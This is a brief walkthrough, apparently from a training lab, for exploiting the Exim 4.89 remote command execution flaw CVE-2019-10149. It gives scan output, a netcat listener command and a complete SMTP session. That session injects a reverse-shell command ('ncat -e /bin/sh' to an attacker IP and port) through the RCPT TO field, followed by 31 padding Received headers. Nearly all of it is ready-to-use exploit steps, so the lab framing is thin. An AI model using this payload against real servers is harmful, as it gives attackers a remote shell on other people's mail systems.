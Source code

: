 Scan the server
```
# First scan the remote server

PORT   STATE SERVICE VERSION
25/tcp open  smtp    Exim smtpd 4.89
| smtp-commands: cve-2019-10149-eximrce-red Hello ip-10-102-100-28.eu-west-1.compute.internal [10.102.100.28], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
Service Info: Host: cve-2019-10149-eximrce-red
```

Setup a Netcat listener
```
nc -nvlp 4444
```

The SMTP server is vulnerable to RCE. The attacker can remotely access the SMTP port using `netcat` and set up an email connecting to localhost.
```
# Connect to the remotehost
nc ipaddress 25

# Connecting to localhost
HELO localhost

# Can be left empty
MAIL FROM:<>

# You can run '/bin/netcat' to create a reverse shell. 
# Change the 'ip' and 'port'
RCPT TO:<${run{\x2Fbin\x2Fncat\t-e\t\x2Fbin\x2Fsh\t<IP>\t<PORT>}}@localhost>

# Attacker can send data by sending 'DATA' command, 
# followed by the 31 'Received' header lines
DATA
Received: 1
Received: 2
Received: 3
Received: 4
Received: 5
Received: 6
Received: 7
Received: 8
Received: 9
Received: 10
Received: 11
Received: 12
Received: 13
Received: 14
Received: 15
Received: 16
Received: 17
Received: 18
Received: 19
Received: 20
Received: 21
Received: 22
Received: 23
Received: 24
Received: 25
Received: 26
Received: 27
Received: 28
Received: 29
Received: 30
Received: 31
.
```

By this point, you should have caught a shell in your listener.